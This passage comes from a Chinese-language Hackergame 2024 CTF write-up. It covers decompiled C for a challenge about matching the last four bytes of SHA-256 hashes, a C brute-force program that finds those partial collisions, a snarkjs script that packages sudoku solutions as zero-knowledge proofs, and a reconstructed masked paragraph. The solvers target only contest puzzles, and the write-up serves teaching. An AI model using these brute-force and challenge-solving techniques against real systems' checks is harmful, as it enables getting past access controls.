  int j; // [rsp+Ch] [rbp-F4h]
  int k; // [rsp+10h] [rbp-F0h]
  int c; // [rsp+14h] [rbp-ECh]
  FILE *stream; // [rsp+18h] [rbp-E8h]
  int v9; // [rsp+24h] [rbp-DCh]
  int v10; // [rsp+28h] [rbp-D8h]
  int v11; // [rsp+2Ch] [rbp-D4h]
  _QWORD v12[4]; // [rsp+30h] [rbp-D0h] BYREF
  char s1[17]; // [rsp+50h] [rbp-B0h] BYREF
  char v14[17]; // [rsp+61h] [rbp-9Fh] BYREF
  char v15[134]; // [rsp+72h] [rbp-8Eh] BYREF
  unsigned __int64 v16; // [rsp+F8h] [rbp-8h]
  __int64 savedregs; // [rsp+100h] [rbp+0h] BYREF

  v16 = __readfsqword(0x28u);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  for ( i = 0; i <= 2; ++i )
  {
    printf("Data %d:", (unsigned int)(i + 1));
    if ( (unsigned int)__isoc99_scanf("%16s", &s1[17 * i]) != 1
      || (unsigned int)hex_to_bin(&s1[17 * i], (__int64)&v12[i], 8uLL) )
    {
      fwrite("Invalid input\n", 1uLL, 0xEuLL, stderr);
      return 1;
    }
  }
  if ( !strcmp(s1, v14) || !strcmp(s1, v15) || !strcmp(v14, v15) )
  {
    puts("Input should be different");
    return 1;
  }
  for ( j = 0; j <= 2; ++j )
  {
    SHA256(&v12[j], 8LL, &v15[32 * j + 30]);
    *(&v9 + j) = 0;
    for ( k = 0; k <= 3; ++k )
      *(&v9 + j) = *((unsigned __int8 *)&savedregs + 32 * j + k - 84) | (*(&v9 + j) << 8);
  }
  if ( v9 == v10 && v10 == v11 )
  {
    stream = fopen("flag1", "r");
    if ( !stream )
    {
      fwrite("Can't open file\n", 1uLL, 0x10uLL, stderr);
      return 1;
    }
    while ( 1 )
    {
      c = fgetc(stream);
      if ( c == -1 )
        break;
      putchar(c);
    }
    fclose(stream);
  }
  else
  {
    puts("Wrong answer");
  }
  return 0;
}
```

但我不太熟悉C语言，这代码看的是真头大。好在一顿分析，我写出了等价的Python代码：

```python
import random
from hashlib import sha256

hexes = ['abcd1234efefcaca', 'deadbeefdeadbeef', '123a4367deadbeef']

v12 = [bytes.fromhex(_) for _ in hexes]
print(v12)
ans = [0, 0, 0]  # v9 v10 v11
v15 = bytearray(b'\x00' * 30)  # -142 -> -8
# 30->61  取 58 59 60 61 # 第一次hash的最后四个字节
# 62->93  取 90 91 92 93  # 第二次hash的最后四个字节
# 94->125  取 122 123 124 125 # 第三次hash的最后四个字节
# -84 -83 -82 -81
# -52 -51 -50 -49
# -20 -19 -18 -17
for j in range(3):
    v15.extend(sha256(v12[j]).digest())
    for k in range(4):
        ans[j] = v15[58 + 32 * j + k] | (ans[j] << 8)
        print(v15[58 + 32 * j + k])
        print(f'{j=},{ans[j]=}')

```

这样看就清晰多了，我们其实只要碰撞`sha256`的最后4个字节就行了，这平均也就只需要碰撞256 ** 4次，似乎是可接受的。

不过这如果用`Python`来写，得跑到猴年马月了。于是我（在GPT的辅助下）写了个C程序：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <openssl/sha.h>
#include <time.h>

void bytes_to_hex(const unsigned char *bytes, size_t len, char *hex_output) {
    for (size_t i = 0; i < len; ++i) {
        sprintf(hex_output + i * 2, "%02x", bytes[i]);
    }
}

int main() {
    char *a = "89629d7e0868d3d9";
    char ans[3][17] = {0};
    strncpy(ans[0], a, 16);

    unsigned char a_bytes[8];
    for (int i = 0; i < 8; i++) {
        sscanf(a + 2 * i, "%2hhx", &a_bytes[i]);
    }

    unsigned char h[4];
    unsigned char hash[SHA256_DIGEST_LENGTH];
    SHA256(a_bytes, 8, hash);
    memcpy(h, hash + SHA256_DIGEST_LENGTH - 4, 4);

    srand((unsigned int)time(NULL));

    int found = 1;
    unsigned long long attempts = 0;
    while (found < 3) {
        // 生成8字节的随机数
        unsigned char b[8];
        for (int i = 0; i < 8; i++) {
            b[i] = rand() % 256;
        }

        unsigned char b_hash[SHA256_DIGEST_LENGTH];
        SHA256(b, 8, b_hash);

        attempts++;

        if (memcmp(b_hash + SHA256_DIGEST_LENGTH - 4, h, 4) == 0) {
            bytes_to_hex(b, 8, ans[found]);
            printf("Found match: %s\n", ans[found]);
            found++;
        }

        if (attempts % 1000000 == 0) {
            printf("Total found: %d, Attempts so far: %llu\n", found, attempts);
        }
    }

    for (int i = 0; i < 3; i++) {
        printf("%s\n", ans[i]);
    }

    return 0;
}
```



实测大约跑了90亿次以后，程序碰出了两个值。

## 零知识数独

零知识证明？这个名词虽然听过，但也算是没接触过的东西，成功把我唬住了，没想到前两问就是送分。

###  数独高手

手玩所有难度即可拿flag。也可以借助[这个网站](http://zh.sudoku.menu/info/solver.html)

### ZK 高手

基本也是解出数独就行，不过需要打包成所谓的零知识证明的什么格式。

打包代码：

```js
const snarkjs = require("snarkjs");
const fs = require('fs');

const input = {
  "unsolved_grid": [
  ],
  "solved_grid": [
  ]
}

function convertNumbersToStrings(arr) {
  return arr.map(row => row.map(num => num.toString()));
}

input.unsolved_grid = convertNumbersToStrings(input.unsolved_grid);
input.solved_grid = convertNumbersToStrings(input.solved_grid);

async function generateProof() {
    const { proof, publicSignals } = await snarkjs.groth16.fullProve(input, "attachment/sudoku.wasm", "attachment/sudoku.zkey");
    fs.writeFileSync('proof.json', JSON.stringify(proof, null, 2));
    console.log('Proof written to proof.json');
    fs.writeFileSync('public.json', JSON.stringify(publicSignals, null, 2));
    console.log('public signals written to public.json');
}

generateProof().catch(err => {
    console.error("Error generating proof:", err);
});
```

把数独题目和解写到最上面的`input`变量里即可。

## 先104🤣」

## 「行吧就算标题可以很长但是 flag 一定要短点」

大语言模型生成一段关于Hackergame 2024的段落，然后把其中的`hackergame`里的字母全替换成了`x`。

文本：

```raw
In txx xxxnd xxll of Hxxxxxxxxx 2024, wxxxx txx wxlls xxx linxd witx sxxxxns sxowinx txx lxtxst xxploits fxox txx xybxx woxld, xontxstxnts xxtxxxxd in x fxxnzy, txxix xyxs xluxd to txx vixtuxl xxploits. Txx xtxospxxxx wxs xlxxtxix, witx txx sxxll of fxxsxly bxxwxd xoffxx xinxlinx witx txx sxxnt of buxnt Etxxxnxt xxblxs. As txx fixst xxxllxnxx wxs xnnounxxd, x txxx of xxxxxxs, dxxssxd in lxb xoxts xnd xxxxyinx lxptops, spxintxd to txx nxxxxst sxxvxx xoox, txxix fxxxs x xix of xxxitxxxnt xnd dxtxxxinxtion. Txx xxxx wxs on, xnd txx stxxxs wxxx xixx, witx txx ultixxtx pxizx bxinx x xoldxn txopxy xnd txx bxxxxinx xixxts to sxy txxy wxxx txx bxst xt xxxxxinx xodxs xnd xxxxinx systxxs in txx lxnd of txx xisinx sun.
```

当Wordle来做，~~我是Wordle大师。~~

轻松推出原文：

```raw
In the grand hall of Hackergame 2024, where the walls are lined with screens showing the latest exploits from the cyber world, contestants gathered in a frenzy, their eyes glued to the virtual exploits. The atmosphere was electric, with the smell of freshly brewed coffee mingling with the scent of burnt Ethernet cables. As the first challenge was announced, a team of hackers, dressed in lab coats and carrying laptops, sprinted to the nearest server room, their faces a mix of excitement and determination. The game was on, and the stakes were high, with the ultimate prize being a golden trophy and the bragging rights to say they were the best at cracking codes and hacking systems in the land of the rising sun.
```

第二问想到了可能要去搜这个模型的词典，然后写深搜来做，不过其他题太有意思了，就没去实现这个想法。
